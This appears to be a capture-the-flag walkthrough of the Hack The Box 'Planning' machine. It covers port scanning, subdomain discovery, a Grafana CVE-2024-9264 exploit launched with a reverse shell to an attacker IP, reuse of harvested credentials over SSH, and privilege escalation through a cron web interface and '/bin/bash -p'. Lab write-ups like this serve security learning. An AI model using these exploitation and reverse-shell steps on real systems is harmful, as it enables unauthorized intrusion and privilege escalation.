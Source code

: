 ![Planning](https://github.com/user-attachments/assets/0ca65ac2-9938-4505-83e9-57f903cf7cfb)


So welcome back to this channel , today we gonna hack planning machine , new release arena , i hope it will be fun for all of you 

![Screenshot 2025-05-11 at 10-35-47 Hack The Box Hack The Box](https://github.com/user-attachments/assets/50b0d9fc-c86e-4a7a-a131-d84746da2664)




basic ports scan using nmap like this:

      nmap -sCV [IP] --min-rate 9600 -p- -T5 -vv 

ouput us that open ports are :
    
    22 : ssh 
    80 : http
so the hosts found is "planning.htb"  then make sure to add this in your /etc/hosts 

#Tips 
  find more explanation about this topic in scans.txt file i've attached to the repo

So , let's go here is the website 

![Screenshot_2025-05-11_10_43_18](https://github.com/user-attachments/assets/11a50a24-e637-41ca-8fb8-b52d088c8b9a)





after browsing a little bit , i was uname to find some kind of huge things to exploit so let's skip this step then 
Adding to that , i will search for possible subdomains  ; i will preconize using bitquark wordlists from seclists suite 

![Screenshot_2025-05-11_10_52_40](https://github.com/user-attachments/assets/650e43e1-9550-4c06-b763-71e7670e1c81)

Ok fine , we add to our /etc/hosts and then  let's go see what going on on it 

![Screenshot_2025-05-11_10_55_47](https://github.com/user-attachments/assets/bf46fc62-ebe6-47c0-bdb0-98a91a23336d)


Ok , 1st thing can notice is the the tech used and then his version 

        grafana v11.0.0

let's browse for some public vulns reported 
i found this one 
  
  https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

![Screenshot 2025-05-11 at 11-20-16 z3k0sec_CVE-2024-9264-RCE-Exploit Grafana RCE exploit (CVE-2024-9264)](https://github.com/user-attachments/assets/704f14ea-a748-4651-8491-58439295f30c)


ran it a get a shell using the provided creds

        python3 poc.py --url http://grafana.planning.htb --username [USER] --password [PASS] --reverse-ip [ATTACKER] --reverse-port [PORT]
#got a shell and directly looking for things , as beginner thinking , i recommend using linpeas ; i've got some interesting 
![Screenshot_2025-05-11_10_31_21](https://github.com/user-attachments/assets/e7189d3d-c29e-4621-80c6-ba24659ce8e9)

take the creds displayed and log as enzo into ssh endpoint
          
          ssh enzo@planning.htb 

![Screenshot_2025-05-11_10_22_14](https://github.com/user-attachments/assets/da3714ea-b1ac-4d26-9dba-1b47975b000c)

#ROOT_WAY

cat the content of /etc/crontabs/crontab.db

grab the pass , then forward the ssh connection to your localhost 
    
    ssh -L 8000:localhost:8000 enzo@planning.htb

#Once done , then go to your browser 

        http://localhost:8000
enter creds and try to add new task , here is what the task should look likes 


 ![Screenshot_2025-05-11_10_29_21](https://github.com/user-attachments/assets/57e9abe8-f47b-4354-9657-828eeed1160d)

then back to the ssh session and just /bin/bash -p


![Screenshot_2025-05-11_10_22_14](https://github.com/user-attachments/assets/d601f796-90a4-425c-aae6-064adbce2450)

All Done ! ! GG , that's really easy one #HacktheBox



![Screenshot 2025-05-11 at 11-34-55 Hack The Box Hack The Box](https://github.com/user-attachments/assets/d6031c9f-4ffb-4695-a77c-7660d2cb24f7)
